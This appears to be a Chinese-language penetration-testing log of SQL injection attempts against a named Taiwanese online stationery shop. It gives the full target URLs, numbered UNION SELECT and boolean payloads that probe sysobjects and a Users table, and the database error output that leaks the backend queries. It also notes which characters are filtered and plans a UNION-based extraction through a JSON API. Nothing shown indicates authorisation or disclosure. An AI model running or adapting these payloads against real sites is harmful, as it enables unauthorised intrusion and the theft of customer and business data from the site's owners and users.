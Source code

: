 21. `123'UNION(SELECT'hello1',(287),(SELECT(name)FROM(sysobjects)WHERE(xtype)='U'),(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))--`

[Microsoft][ODBC SQL Server Driver][SQL Server]接近 ')' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')='123'UNION(SELECT'hello1',(287),(SELECT(name)FROM(sysobjects)WHERE(xtype)='U'),(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))--' and I.online=1 and I.State in ('1','2')
```

22. `'AND(SELECT(COUNT(*))FROM(Users))>0--`

[Microsoft][ODBC SQL Server Driver][SQL Server]接近 ')' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')=''AND(SELECT(COUNT(*))FROM(Users))>0--' and I.online=1 and I.State in ('1','2')
```

空白, `.`, `%2F**%2F` 都不能注入，雖然有 SQLi，但能偷到的資料不多

## 前言2

- 目標: `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsId=1&ClsUpId=&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty=`
- 可控制每個參數
- 這個 API 回傳的是 JSON 列表，有機會達成 UNION SELECT

## 測試流程2

1. `mItemList.asp?Name=%27&PriceMin=0&orderby=2&page=1`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]遺漏字元字串 '') as OutputStr' 後面的引號。<hr>select dbo.GetKeywordsList(''') as OutputStr
```

2. `mItemList.asp?Name=123123123%27)%20UNION%20SELECT%20NULL--&PriceMin=0&orderby=2&page=1`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]接近關鍵字 'UNION' 之處的語法不正確。<hr>select dbo.GetKeywordsList('123123123'  UNION SELECT NULL--') as OutputStr
```

3. `mItemList.asp?ClsId=&ClsUpId=456456%27&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]接近 ',') like ' 之處的語法不正確。<hr>exec ssp_search_page 'SELECT top 100 percent t.OrderId,t.ScdId,t.PrvId,t.OnlineRoomId,t.ClsUpId,t.ClsId,t.ROWID,t.Id,t.Name,t.urlName,t.ImgFile,t.ClsName,t.SizeName,t.SpcPrice,t.AdvPrice,t.Qty,t.IconTopPic,t.IconTitle,  ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, ROUND( I.PriceF , 0) As FixedPrice,  ROUND( I.Price , 0) As SalePrice,  ROUND(I.Price,0) As GroupPrice,  ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId from TmpProductItem as t with(nolock) , item as i   where i.id=T.id   and t.ClsUpId=''456456''''  AND ((Replace(t.Name+isnull(t.Keywords,''''),'' '','''') like ''%123123%'')                              or t.Id=''123123'' OR t.ScdID=''123123'' OR t.PrvId=''123123'' ) ORDER BY ISNull(t.Qty, 0) DESC, t.Id ','1','20'
```

